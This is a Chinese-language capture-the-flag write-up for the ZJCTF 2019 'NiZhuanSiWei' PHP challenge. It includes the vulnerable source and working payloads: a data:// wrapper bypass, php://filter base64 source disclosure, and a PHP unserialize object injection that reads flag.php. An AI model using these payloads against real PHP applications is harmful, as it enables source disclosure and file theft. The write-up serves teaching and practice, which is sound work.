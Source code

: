 ```yaml
---
title: ZJCTF 2019 NiZhuanSiWei
date: 2022-05-28 21:59:12
toc: false
tags:
- 反序列化
- PHP伪协议
categories: CTF-Web
my: ZJCTF-2019-NiZhuanSiWei
---
```


题目源码:

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

很明显的反序列化题目，需要get传参数`text,file,password`还需要进行一个绕过

`if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"))`

首先这个text不能为空，在文件中读取字符串为`welcome to the zjctf`

此时就需要用到data://协议，构造payload

```
?text=data://text/plain,welcome to the zjctf
```

然后观察有一正则匹配，我们不能直接为flag.php，有一文件包含了`useless.php`我们利用php://filter协议读取源码

```
file=php://filter/read=convert.base64-encode/resource=useless.php
```

将二者结合拿到base64编码后的源码

```
text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528220808966.png)

在进行解码后

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
```

直接进行反序列化

```php
<?php 
class Flag{  //flag.php 
    public $file="flag.php"; 
    public function __tostring(){ 
        if(isset($this->file)){ 
            echo file_get_contents($this->file);
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        } 
    } 
} 
$password=new Flag();
echo serialize($password);
?> 
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528221026104.png)

最终我们的payload

```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528221443996.png)

右键查看源码找到flag

![](https://nssctf.wdf.ink/img/xmj/image-20220528221516224.png)
